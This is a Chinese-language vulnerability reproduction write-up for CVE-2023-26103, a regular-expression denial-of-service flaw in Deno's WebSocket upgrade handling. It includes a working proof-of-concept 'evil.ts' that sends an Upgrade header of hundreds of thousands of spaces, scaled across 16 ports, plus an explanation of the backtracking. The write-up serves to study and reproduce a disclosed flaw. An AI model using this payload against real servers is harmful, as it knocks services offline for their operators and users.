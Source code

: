 ```yaml
---
title: CVE-2023-26103
---
```


# CVE-2023-26103

<script setup>
import VueMetadata from "@/components/metadata/Metadata.vue"
</script>

<vue-metadata author="swwind" time="2023-6-12">
</vue-metadata>

Deno 是开源的一个简单、现代且安全的 JavaScript 和 TypeScript 运行环境。它使用 V8 并使用 Rust 构建。

Deno 1.31.0 之前版本存在安全漏洞，该漏洞源于容易受到正则表达式拒绝服务(ReDoS)攻击。

## 漏洞详情信息表

|  漏洞名称  |     Deno 安全漏洞      |
| :--------: | :--------------------: |
| CNNVD 编号 |   CNNVD-202302-2012    |
|  CVE 编号  | [CVE-2023-26103][nist] |
|    厂商    |       个人开发者       |
|  危害等级  |          中危          |
|  漏洞类型  |      拒绝服务攻击      |

## 系统和软件环境配置详情信息表

- deno v1.30.3

## 漏洞还原详细步骤

1. 使用 `mkdir CVE-2023-26103` 创建新文件夹。
2. 使用 `wget https://github.com/denoland/deno/releases/download/v1.30.3/deno-x86_64-unknown-linux-gnu.zip` 下载含有缺陷的 deno 版本。
3. 使用 `unzip deno-x86_64-unknown-linux-gnu.zip` 解压可执行文件 `deno` 到当前目录。
4. 运行 `./deno --version` 查看当前版本。

![](/assets/exploits/figure3/fig1.png)

## 漏洞测试或验证详细步骤

### 编写代码

按照官方教程提供的样例，编写一个简单的 WebSocket 服务器 `server.ts`。

```js
async function handle(conn: Deno.Conn) {
  const httpConn = Deno.serveHttp(conn);
  for await (const e of httpConn) {
    const { socket, response } = Deno.upgradeWebSocket(e.request);
    socket.onopen = () => socket.send("Hello World!");
    socket.onmessage = (e) => {
      console.log("WebSocket Message:", e.data);
      socket.close();
    };
    socket.onclose = () => console.log("WebSocket has been closed.");
    socket.onerror = (e) => console.error("WebSocket error:", e);
    e.respondWith(response);
  }
}

const server = Deno.listen({ port: 8080 });

for await (const conn of server) {
  handle(conn);
}
```

上面这段代码会监听本地 `8080` 端口，并且提供 WebSocket 协议。

使用 `./deno run --allow-net server.ts` 可以成功启动我们的 WebSocket 服务器。

### 验证漏洞

`Deno.upgradeWebSocket` 中含有如下代码：

```js
req.headers.get("upgrade").split(/\s*,\s*/);
```

其中包含了一个带有缺陷的正则表达式，其匹配的复杂度最坏可以达到 $O(n^2)$。

要想利用这个缺陷，我们可以直接构造一个带有数百万个空格的 `Upgrade` HTTP 头的请求即可。

下面是用于攻击的代码，我们将其保存为 `evil.ts`。

```js
const evil = "X" + " ".repeat(300000) + "Y";

await fetch("http://localhost:8080/", {
  headers: {
    Upgrade: evil,
  },
});
```

上面这段代码发送了一个 HTTP 请求，其中 Upgrade 头的值是一个 `X` 和三十万个空格再加上一个 `Y`，足以使得目标正则表达式难以计算出结果。

我们使用 `./deno run --allow-net evil.ts` 发送请求，可以看到系统占用明显上升。

![](/assets/exploits/figure3/fig2.png)

上图中可以明显看到有一个 CPU 达到 100% 占用。

### 更大规模测试

得益于 JavaScript 语言的单线程性，无论我们同时发起多少个请求，都只会有一个 CPU 资源被消耗。

因此我们尝试修改代码，使得一个服务器可以同时支持 16 个请求同时访问。

修改 `server.ts` 如下

```js
for (let i = 0; i < 16; ++i) {
  const worker = new Worker(new URL("./worker.ts", import.meta.url).href, {
    type: "module",
  });
  worker.postMessage({ port: 8080 + i });
}
```

接下来创建文件 `worker.ts` 如下

```js
async function handle(conn: Deno.Conn) {
  const httpConn = Deno.serveHttp(conn);
  for await (const e of httpConn) {
    const { socket, response } = Deno.upgradeWebSocket(e.request);
    socket.onopen = () => socket.send("Hello World!");
    socket.onmessage = (e) => {
      console.log("WebSocket Message:", e.data);
      socket.close();
    };
    socket.onclose = () => console.log("WebSocket has been closed.");
    socket.onerror = (e) => console.error("WebSocket error:", e);
    e.respondWith(response);
  }
}

async function createServer(port: number) {
  const server = Deno.listen({ port });

  for await (const conn of server) {
    handle(conn);
  }
}

self.onmessage = (e) => {
  const { port } = e.data;
  createServer(port);
  console.log(`listen on http://localhost:${port}/`);
};
```

接着使用 `./deno run --allow-net --allow-read server.ts` 启动服务器，可以看到程序按顺序监听了 16 个端口。

![](/assets/exploits/figure3/fig3.png)

接着修改 `evil.ts` 如下

```js
const evil = "X" + " ".repeat(300000) + "Y";

for (let i = 0; i < 16; ++i) {
  const port = 8080 + i;
  console.log(`sending request to :${port}`);
  fetch(`http://localhost:${port}/`, {
    headers: {
      Upgrade: evil,
    },
  });
}
```

使用 `./deno run --allow-net evil.ts`，可以看到主机占用立刻达到了 100%。

![](/assets/exploits/figure3/fig4.png)

### 漏洞分析

造成漏洞的原因在于上文中提到的一句话

```js
req.headers.get("upgrade").split(/\s*,\s*/);
```

这句话中我们读取了 HTTP 头部中的 `Upgrade` 字段，并将其通过 `\s*,\s*` 正则表达式进行分割。

一般来说这句话对于正常的情况下不会出现任何问题，但是由于 `\s*` 是贪心地匹配所有可能的结果，因此如果我们构造了如上文中 `"X" + " ".repeat(300000) + "Y"` 的字符串，那么 `\s*,\s*` 会先贪心地从第一个空格开始匹配中间所有的空格，发现最后不是逗号并发生失配，接着回溯从第二个空格开始匹配接下来的所有空格，再次发现最后不是逗号并发生失配。如此这般，匹配的复杂度将会达到最差的 $O(n^2)$。

因此，我们通过构造的方式可以成功使得该正则表达式消耗大量的 CPU 运算，从而实现拒绝服务攻击。

[nist]: https://nvd.nist.gov/vuln/detail/CVE-2023-26103
